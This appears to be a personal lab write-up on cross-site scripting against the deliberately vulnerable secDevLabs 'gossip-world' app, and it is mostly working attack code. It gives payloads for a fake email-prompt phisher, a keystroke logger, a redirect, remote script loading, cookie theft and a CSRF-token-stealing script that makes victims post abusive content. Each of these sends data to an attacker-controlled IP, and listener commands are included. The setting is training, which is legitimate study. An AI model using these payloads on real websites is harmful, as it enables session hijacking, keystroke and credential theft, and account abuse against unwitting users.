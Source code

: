 # Definition
Code injection.
## Installing and Preparing labs
I use [secDevLabs](https://github.com/globocom/secDevLabs) to practice with this vulnerability.
```shell
git clone https://github.com/globocom/secDevLabs
cd secDevLabs/owasp-top10-2021-apps/a3/gossip-world/
make install
```
Open the web using *http://localhost:10007*
# Attacking
## Understanding
### Verifying XSS Vulnerability
We could verify if the website interprets scripts and injecting code.
![[Pasted image 20230628191921.png|700x450]]

----
### Getting Email Address
Setting up http server on attacker device.
```bash
sudo python3 -m http.server 80
```
----
Script to be injected.
```html
<script>
	var email = prompt("Please, enter your email address to view the post", "example@example.com");
	if (email == null || email == "") {
		alert("Please, enter a valid email.");
	}
	else {
		fetch("http://192.168.200.128/?email=" + email)
	}
</script>
```
---- 
### Key Logger
Setting up http server on attacker device and pipe in real time pressed keys.
```bash
sudo python3 -m http.server 80 2>&1 | sed -n '/GET \// { s/%20/ /g; p }'
```
----
Script to be injected.
```html
<script>
	var k = "";
	document.onkeypress = function(e) {
		e = e || window.event;
		k += e.key;
		var i = new Image();
		i.src = "http://192.168.200.128/" + k;
	};
</script>
```
---- 
Host server pipe output.
![[Pasted image 20230628192818.png|1300x600]]

----
### Redirecting to Insecure Web
Script to inject.
```html
<script>
	window.location.href = "https://cxnsxle.hashnode.dev";
</script>
```
----
## Using External Scripts
We should inject script code so the web connects with us to do anything that we want (replace *SCRIPT from ATTACKER* with your script name).
```html
<script src="http://192.168.200.128/<SCRIPT from ATTACKER>.js"></script>
```
### Cookie Hijacking
We have 2 users logged on 2 differents web browsers *brave* and *firefox*.
- *cxnsxle* user cookie: eyJfY3NyZl90b2tlbiI6Ijc0YjhlYTQ0LTVhMmYtNDAyMy1hMTk4LTk0NWMxZDcxMzM5YiIsInVzZXJuYW1lIjoidGVzdCJ9.ZJzUIg.-qn7ZpitV7hgfPEvWMlkw6VzOuY
- *test* user cookie: eyJfY3NyZl90b2tlbiI6ImJiNjk4N2I2LTdiNmEtNDlmYi1hZjllLWY3OTcyMjIyOWRhMiIsInVzZXJuYW1lIjoiY3huc3hsZSJ9.ZJzR-Q.OQaDB3GJqlhJYXNcTexRZvzgI5g
Disable [[HttpOnly]] on *test* user.
![[Pasted image 20230628195050.png]]

----
Script *cookieHijacking.js* to hijack cookie of *test* user.
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.200.128/?cookie=' + document.cookie);
request.send();
```
----
Create a http server to retrieve connection from *test* user.
```shell
sudo python3 -m http.server 80
```
----
Then, from the *test* browser he should click on the post with the malicious code.
And finally, you can use *test* cookie to do anything that he cans.
![[Pasted image 20230628200040.png|1500x600]]

----

### Being Evil
We are going to do that anyone user, that see a malicious post in the web, he will create a post with impolite content.
- Let's start creating the malicious code into the malicious post by using *cxnsxle* user.
![[Pasted image 20230628220358.png|600x400]]

----
- Then, we are intercepting the data sent when we create a new post by using [[BurpSuite]].
![[Pasted image 20230628220152.png]]
This uses a POST method.
- Now, we are going to create a malicious script so *test* user cans create a new impolite post.
```js
var domain = "http://localhost:10007/newgossip"
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);			// false -> Syn (waits for response), true -> Asyn (doesn't wait for response)
req1.withCredentials = true;
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementsByName('_csrf_token')[0].value;

var req2 = new XMLHttpRequest();
var title_txt = 'MY%20BOSS%20IN%20AN%20IDIOT';
var subtitle_txt = 'BOSS%20YOU%20ARE%20AN%20ASSHOLE';
var text_txt = 'My%20boss%20has%20not%20paid%20me%20two%20months%20ago%20and%20he%20is%20an%20asshole%20with%20me';
var post_data = 'title=' + title_txt + '&subtitle=' + subtitle_txt + '&text=' + text_txt + '&_csrf_token=' + token;
req2.open('POST', domain, false);			// false -> Syn (waits for response), true -> Asyn (doesn't wait for response)
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(post_data);
```
----
- Finally, when the *test* user see the malicious post, he will create a impolite post abouse his payment.
![[Pasted image 20230628221016.png]]
![[Pasted image 20230628221034.png]]

----